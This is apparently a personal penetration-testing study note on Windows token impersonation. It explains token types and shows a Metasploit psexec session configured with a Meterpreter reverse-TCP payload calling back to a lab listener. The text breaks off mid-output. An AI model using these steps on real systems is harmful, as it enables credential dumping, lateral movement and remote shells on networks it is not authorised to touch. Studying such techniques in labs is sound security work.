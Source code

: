 **Token Impersonation**

TOKENS<br/>
<br/>
Temporary keys that allow acces tot a system or network without having to provide credentials each time. <br/>
Like cookies<br/>
<br/>
TWO TYPES<br/>
Delegate - created for logging into a machine using Remote Desktop<br/>
Impersonate - 'non-interactive' such as attaching a network drive or a domain login script<br/>
<br/>
With a token on a machine, you can impersonate that token and attempt to run commands IE; mimikatz and dump the hashes.<br/>
You may need to move laterally to differnt machines to find tokens of value or a domain admin token.<br/>
Once you do you have the power.<br/>
<br/>
<br/>
ATTACK<br/>
<br/>
INCOGNITO<br/>
<br/>
open metasploit<br/>
load<br/>
<br/>
exploit/windows/smb/psexec<br/>
<br/>
<br/>
msf6 &gt; use exploit/windows/smb/psexec <br/>
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp<br/>
msf6 exploit(windows/smb/psexec) &gt; options<br/>
<br/>
Module options (exploit/windows/smb/psexec):<br/>
<br/>
 Name         Current Setting Required Description<br/>
 ----         --------------- -------- -----------<br/>
 RHOSTS                 yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Us<br/>
                          ing-Metasploit<br/>
 RPORT         445       yes    The SMB service port (TCP)<br/>
 SERVICE_DESCRIPTION          no    Service description to to be used on target for pretty listing<br/>
 SERVICE_DISPLAY_NAME          no    The service display name<br/>
 SERVICE_NAME              no    The service name<br/>
 SMBDomain       .        no    The Windows domain to use for authentication<br/>
 SMBPass                no    The password for the specified username<br/>
 SMBSHARE                no    The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal rea<br/>
                          d/write folder share<br/>
 SMBUser                no    The username to authenticate as<br/>
<br/>
<br/>
Payload options (windows/meterpreter/reverse_tcp):<br/>
<br/>
 Name   Current Setting Required Description<br/>
 ----   --------------- -------- -----------<br/>
 EXITFUNC thread      yes    Exit technique (Accepted: '', seh, thread, process, none)<br/>
 LHOST   192.168.247.128 yes    The listen address (an interface may be specified)<br/>
 LPORT   4444       yes    The listen port<br/>
<br/>
<br/>
Exploit target:<br/>
<br/>